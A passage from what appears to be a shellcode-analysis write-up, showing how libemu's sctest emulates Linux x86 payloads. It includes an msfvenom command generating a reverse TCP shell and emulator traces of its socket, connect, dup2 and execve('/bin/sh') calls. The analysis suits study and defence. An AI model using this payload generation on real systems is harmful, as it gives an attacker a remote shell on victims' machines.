 First of all "/bin//sh" is stored into stack with the two push instructions.

```python
>>> "68732f2f".decode("hex")
'hs//'
>>> "6e69622f".decode("hex")
'nib/'
```

Then the chain of argument for execve() is built, with pointers to memory
region storing the command to be executed and then the lastest int 0x80 it has
been called.

## libemu in action on linux/x86/reverse_shell

We start creating a RAW shellcode for a TCP reverse shell shellcode.

> msfvenom -p linux/x86/shell_reverse_tcp -f raw -a x86 --platform linux -o reverse_shell.raw

Using the raw shellcode, I'll call sctest in order to analyze emulated output.

```sh
$ cat reverse_shell.raw| sctest -Ss 100000

verbose = 0
int socket(int domain=2, int type=1, int protocol=0);
int dup2(int oldfd=14, int newfd=2);
int dup2(int oldfd=14, int newfd=1);
int dup2(int oldfd=14, int newfd=0);
connect
execve
int execve (const char *dateiname=00416fa6={//bin/sh}, const char * argv[], const char *envp[]);
cpu error error accessing 0x00000004 not mapped

stepcount 42
```

Just from bare sctest output, we can argue this shellcode is something related
to networking. It tells a story about a socket, a connect somewhere,
duplicating standard input, output and error on a file descriptor and then
executing "/bin/sh".

Let's add a bit more of verbosity.

```sh
cat reverse_shell.raw| sctest -Ss 100000 -vvv 

verbose = 3
[emu 0x0x53e1f0 debug ] cpu state    eip=0x00417000
[emu 0x0x53e1f0 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x53e1f0 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: 
[emu 0x0x53e1f0 debug ] cpu state    eip=0x00417000
[emu 0x0x53e1f0 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x53e1f0 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: 
[emu 0x0x53e1f0 debug ] 31DB                            xor ebx,ebx
[emu 0x0x53e1f0 debug ] cpu state    eip=0x00417002
[emu 0x0x53e1f0 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x53e1f0 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: PF ZF 
[emu 0x0x53e1f0 debug ] F7E3                            mul ebx
[emu 0x0x53e1f0 debug ] cpu state    eip=0x00417004
[emu 0x0x53e1f0 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x53e1f0 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: PF ZF 
[emu 0x0x53e1f0 debug ] 53                              push ebx
[emu 0x0x53e1f0 debug ] cpu state    eip=0x00417005
```